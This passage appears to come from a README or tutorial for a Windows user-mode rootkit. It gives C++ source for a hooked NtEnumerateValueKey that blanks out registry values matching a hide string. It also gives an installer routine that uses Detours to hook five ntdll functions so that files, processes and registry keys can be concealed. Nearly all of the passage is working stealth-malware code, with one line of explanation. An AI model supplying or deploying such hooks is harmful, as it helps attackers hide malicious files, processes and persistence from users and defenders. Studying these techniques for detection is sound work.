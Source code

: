 ```cpp
NTSTATUS NTAPI HookedNtEnumerateValueKey(HANDLE KeyHandle, ULONG Index, KEY_VALUE_INFORMATION_CLASS KeyValueInformationClass, PVOID KeyValueInformation, ULONG Length, PULONG ResultLength) {
	
	NTSTATUS status = origNtEnumerateValueKey(KeyHandle, Index, KeyValueInformationClass, KeyValueInformation, Length, ResultLength);
	WCHAR * keyValueName = NULL;

	if (KeyValueInformationClass == KeyValueBasicInformation) keyValueName = ((KEY_VALUE_BASIC_INFORMATION *) KeyValueInformation)->Name;
	if (KeyValueInformationClass == KeyValueFullInformation) keyValueName = ((KEY_VALUE_FULL_INFORMATION *) KeyValueInformation)->Name;

	if (StrStrIW(keyValueName, HIDE_REG)) {
		ZeroMemory(KeyValueInformation, Length);
		status = STATUS_NO_MORE_ENTRIES;
	}	
	
	return status;
};
```

`HookedNtEnumerateValueKey` calls the original `NtEnumerateValueKey` function. it then extracts the value name based on `KeyValueInformationClass` and 0's out the buffer if the value name contains `HIDE_REG`.

### hook installation

```cpp
BOOL hooky(void) {

    LONG err;

	origNtQueryDirectoryFile		= (NtQueryDirectoryFile_t) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtQueryDirectoryFile");
	origNtQueryDirectoryFileEx		= (NtQueryDirectoryFileEx_t) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtQueryDirectoryFileEx");
	origNtQuerySystemInformation 	= (NtQuerySystemInformation_t) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtQuerySystemInformation");
	origNtEnumerateKey				= (NtEnumerateKey_t) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtEnumerateKey");
	origNtEnumerateValueKey			= (NtEnumerateValueKey_t) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtEnumerateValueKey");

	DetourRestoreAfterWith();

	DetourTransactionBegin();
	DetourUpdateThread(GetCurrentThread());
	DetourAttach(&(PVOID&)origNtQueryDirectoryFile, HookedNtQueryDirectoryFile);
	DetourAttach(&(PVOID&)origNtQueryDirectoryFileEx, HookedNtQueryDirectoryFileEx);
	DetourAttach(&(PVOID&)origNtQuerySystemInformation, HookedNtQuerySystemInformation);
	DetourAttach(&(PVOID&)origNtEnumerateKey, HookedNtEnumerateKey);
	DetourAttach(&(PVOID&)origNtEnumerateValueKey, HookedNtEnumerateValueKey);
	err = DetourTransactionCommit();

	return TRUE;
}
```
